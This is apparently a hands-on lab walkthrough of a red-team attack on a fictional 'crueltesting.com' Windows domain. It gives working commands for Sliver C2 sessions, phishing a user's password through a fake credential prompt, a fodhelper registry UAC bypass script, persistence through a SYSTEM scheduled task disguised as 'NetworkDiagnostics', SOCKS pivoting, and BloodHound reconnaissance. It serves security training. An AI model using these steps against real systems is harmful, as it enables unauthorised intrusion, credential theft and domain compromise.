
**Attacking machine/evil: Initial foothold**


In the sliver tab let us interact with the current session. The syntax is sessions -i <session name or number>.
Your session should have the name JOYOUS_MORTGAGE, so the command would be
```
sessions -i JOYOUS_MORTGAGE
```

Note: You may have several sessions to the same implant. To differentiate between them you have to use the session number, you can use tab completion e.g. sessions -i 7f followed by **tab** if the session starts with 7f.

We now interact with the session, so we can type
```
info
```
to get some information including the username, machine name, OS and version, SIDs (will be discussed later) and more.


**Sliver Interaction**
### Situational Awareness : Learning about the compromised environment.

You are now in control of garfield's machine. We could essentially do anything he can do on his machine.

Let us learn more about the environment. An intruder may here come prepared with scripts to fetch information about everything, ip, routing, recently visited sites, the users mailbox, ...

Here we will focus on information necessary for the completion of this mission!

The intruder may first want to find out about the compromised user's permissions, group membership in Active Directory and so forth. In your sliver session window type sa-whoami.

```
sa-whoami
```


**sa-whoami, showing garfield groups.**

This will display some interesting information, such as the Active Directory groups garfield belongs to. He belongs to one group (Helpdesk Support) that may be interesting. We can also see that he is a local administrator on his machine (not so suprising if he is in the helpdesk).

When checking his privileges with the sliver command getprivs, we see however that the we have measly privileges on the local machine.

```
getprivs
```

**Limited privileges because of Windows UAC (User Access Control).**

This is because the process we are running in is of medium integrity so we still do not have enough privileges to do nefarious stuff such as creating services. The reason the process is of medium integrity, rather than high, is because of Microsoft UAC (User Access Control). We will bypass that later.

We may want to learn about the Active Directory domain. We can use a built in windows command for this.
The sliver execute command allows us to run built in windows commands.

```
execute -o nltest /dclist:
```

**Active Directory Domain Information.**

We can see that the machine has joined the Active Directory domain via its domain controller dc01.crueltesting.com. Good to know?

### Learning about Garfields not-so-private-anymore files.

The intruder would typically use scripts to find files or emails searching for keywords.

Here we will just access them directly via standard commands, change into garfield's TODOs directory that contains messages from his manager.
```
cd C:/Users/garfield/Documents/TODOs
```
and then check what files there are
```
ls
```

**Files in Garfield's private TODO folder**

Now we can read the messages to Garfield from his manager.

Type the following commands in your sliver session (the command cat shows the content of a file, showing feline domination)

```
cat resetpasswords.txt
```

```
cat mice-management-access.txt
```
```
cat tomcat-patch.txt
```

**Garfield's work orders**

We learn that the he is supposed to reset a service account weekly, we learn about a fileshare with some interesting content (that garfield cannot access yet, because he is not a domain admin) and we learn about a system "tomcat" that needs patching.


### Getting Garfield AD Credentials

As a first foothold we **may need** some credentials in the Active Directory domain crueltesting.com. There are several methods the attacker could use to get credentials from a domain user.

One of them is to ask politely.

We have already mentioned that having copied the website of crueltesting we could send a phishing email asking users to logon to what looks like crueltesting website. We could also ask garfield directly:

In our sliver session tab, type

```
c2tc-askcreds for "garfield@crueltesting.com"
```

**Asking Garfield for credentials via sliver**

Now go back to your tab for the RDP session to client1 crueltesting. You will see that a window has opened asking garfield for his credentials.

Type something in that window simulating garfield falling for the trap (garfields password is catsRCute2026!)


**Garfield enters his password**
Back in your sliver session window you will see what garfield typed.



Joy! We now hopefully have Garfield's domain password.

### Escalating our Privileges on the compromised client (Bypassing Windows UAC)

As noted above, our privileges are limited - our implant is running with integrity level medium, we want it to be **high**!!!. Unfortunately for us the integrity level is medium because of This is all because of Windows UAC (User Admission Control, which prompts an administrator if he really wants to do this when he tries to execute a potentially dangerous command).

Some more technical details about this bypass of UAC is found in the appendix:
[Appendix A — Technical Overview of the UAC Bypass](#appendix-a--technical-overview-of-the-uac-bypass)

So we are now going to upload a file to Garfield's Desktop to help us bypass the UAC.
This file is a PowerShell Script and the technique is described in the appendix A.

In a shell window on Evil, paste the following that create the PowerShell file.
```
cat << 'EOF' > /home/localadmin/LAB/bypass.ps1
$command = "C:\Users\garfield\Desktop\stager.exe"
New-Item "Registry::HKCU\Software\Classes\ms-settings\Shell\Open\command" -Force
Set-ItemProperty "Registry::HKCU\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $command -Force
New-ItemProperty "Registry::HKCU\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
EOF
```

**Create powershell script to bypass UAC**

From the sliver window, we can now upload this file to Garfield's machine.

```
upload bypass.ps1
```

**Uploading bypass file**

Then we execute the file
```
execute powershell.exe -Command "Set-ExecutionPolicy Bypass -Scope Process -Force; & 'C:\Users\garfield\Desktop\bypass.ps1'"
```

**Executing the bypass file**

You should see a new session appear, this one with a higher integrity. Interact with the new session (sessions -i <number>). From the higher integrity session we can schedule a task.

```
sessions -i <number>
```

```
execute -o schtasks /create /tn "NetworkDiagnostics" /tr "C:\Users\garfield\Desktop\stager.exe" /sc onstart /ru "NT AUTHORITY\SYSTEM" /f
```
And then we can execute it.

```
execute -o schtasks /run /tn "NetworkDiagnostics"
```

This will create another session!
Check with the
```
sessions
```
command.


**The 3 sessions from the windows client, the one from the computer "Client2" is the most privileged.**


We will now have 3 sessions as seen by the picture. The initial session with Garfield, another session with Garfield running with **high** integrity which we used to create our 3rd session, running with **system** priority. Since this session runs as a scheduled task, it is also persistent after reboots of the windows machine.

Interact with the session with system privileges (use sessions -i *session number*) and check your privileges.


### Pivoting to to other sytems

Now that we control one system, we can start a socks proxy allowing us to reach any other system on the inside, in spite of the firewall blocking incoming traffic. This is shown in the picture below.


**Proxying incoming traffic via the outgoing Command and Control Connection**

*Note: We could start the socks proxy even with measly privileges of the user without escalating privileges to SYSTEM. However, for lab purpose the socks proxy will be more stable now that we run it as a service under SYSTEM.*

First let us verify that the intruder cannot reach the internal system at 10.0.3.6 on port 80, in the shell command window (we already tried nmap before).
Now execute a netcat command that tries to connect to port 80 on internal server 10.0.3.6

```
nc -w 3 -v 10.0.3.6 80
```
The command will time out.


**netcat fails, timing out**

From sliver session we start the socks proxy:

```
socks5 start
```

**Starting the socks proxy**
Now we can access internal systems via the socks proxy, we prove that by prepending proxychains
in front of the previous netcat command

```
proxychains nc -w 3 -v 10.0.3.6 80
```

**netcat now works through the socks proxy!**

The command succeeds since we are now using the socks proxy!

We can also use a web browser directly! Start firefox from shell tab:

```
firefox -P "ProxyProfile" --new-instance &
```
Firefox will start with a predefined profile, "ProxyProfile" that leverages the proxy connection through our sliver implant.

You can now use Firefox to surf to internal URLs behing the firewall such as m2.crueltesting.com

```
http://m2.crueltesting.com
```

**Mice Management website, maybe something we should attack?**


This is the application for Mice Control that was mentioned in one of the notes in Garfield's TODOs directory! Good to know that we can reach it even though network access is blocked by the firewall!


## Attacking the Active Directory Infrastructure

Most enterprises rely on Microsoft Active Directory. For the intruder, compromising the Active Directory would typically allow him total control of the whole IT infrastructure, including applications, OT systems and more. These attacks can be extremely difficult to defend against since the intruder will abuse the way protocols work and are designed, rather than exploiting vulnerabilities that can be patched.


### Recon of AD with Bloodhound

The active directory stores information about every user and service in the active directory domain. Users and services are typically assigned to groups, to which privileges can be assigned. The most privileged groups are Enterprise Admins and Domain Admins.
The ultimate target of the intruder is to compromise one of the most privileged accounts.

Armed with the username and password of garfield we cannow learn about the target active directory. Note that we the intruder can do the mapping even though our victim (garfield) is just a regular user. This is because the directory allows plenty of read access to all their users.

We will use a popular tool - bloodhound - for our recon. Bloodhound reads info from the Active Directory, using a non-privileged account, and will show you attack paths how to escalate your privilees!

In a command shell window type (note that we learned about the garfield credentials and the name of the domain controller dc01.crueltesting.com above)

```
proxychains4 bloodhound-python -u 'garfield' -p 'catsRCute2026!' -d 'crueltesting.com' -dc dc01.crueltesting.com -gc dc01.crueltesting.com -ns 10.0.2.10 --dns-tcp -c All --zip
```

**Gathering information about Active Directory with bloodhound**

This will use our relay function to contact the Active Directory Domain Controller to extract information.
As a result a zip file is created on our evil machine.

Next start the bloodhound server on our evil machine, in order to examine the results via a GUI.
From a command shell window start the bloodhound GUI using a docker container. (Containers are fantastic since they allow running applications without us having to install them, struggle with libraries etc!)
```
docker compose -f /home/localadmin/tools/bloodhound/docker-compose.yml up -d
```

You cannow open bloodhound to investigate the active directory domain, and potential ways of elevating our privileges - the ultimate objective is to become a domain admin.

On evil, open firefox and go to
```
htttp://127.0.0.1:8080
```
The credentials (admin/xxxxxxx) should be saved in browser so press ok.


**Logging into Bloodhound**

Note: Typically we would now upload the zip file we created in the previous step. For this lab we will instead use a pre-created zip file that contains an interesting scenario. So you do not have to upload the zip file.

When logged in, search for garfield@crueltesting.com. Expand the "Member Of" to the right and you will see the groups to which Garfield belongs. You will also see more information such as last password reset etc.


**Checking out Garfield with bloodhound**

We now want to know how we can go from controlling garfield to become domain admin! Go to the Pathfinding tab in Bloodhound, and enter garfield@crueltesting.com as source and domain admins@crueltesting.com as destination.

You will now see a direct path for the attacker to gain total access to the Active Directory domain!

